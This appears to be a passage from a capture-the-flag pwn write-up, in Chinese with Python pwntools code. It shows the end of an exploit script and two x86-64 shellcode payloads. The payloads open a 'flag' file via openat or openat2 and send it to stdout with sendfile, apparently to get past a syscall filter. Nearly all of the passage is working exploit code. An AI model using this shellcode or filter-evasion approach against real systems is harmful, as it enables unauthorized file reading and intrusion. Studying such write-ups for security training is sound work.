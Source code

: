 ```python
    flag_header = b'flag{'
    sleep(1)
    sl('cat flag')
    ru(flag_header)
    flag = flag_header + ru('}') + b'}'
    exit(0)

#debug()
shellcode = '''
 mov r12, 0x0067616c66 
 mov [rsp], r12
 xor rsi,rsi     
 xor r10, r10
 mov rdi, -100
 mov rsi, rsp
 mov rdx, 0
 mov rax,0x101
 syscall
 mov rdi, 1
 mov rsi, rax
 mov rdx, 0
 mov r10, 0x100
 mov rax, 0x28
 syscall
'''

sl(asm(shellcode))


inter()
```



##### 用opennat2，sendfile替代的

```python
shellcode = '''
mov r12, 0x0067616c66
mov [rsp], r12

xor rax, rax
push rax
push rax
push rax
push rax

mov rdi, -100       
lea rsi, [rsp+0x20]  
mov rdx, rsp         
mov r10, 0x18        
mov rax, 437        
syscall
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 0x100
mov rax, 0x28
syscall
'''
```
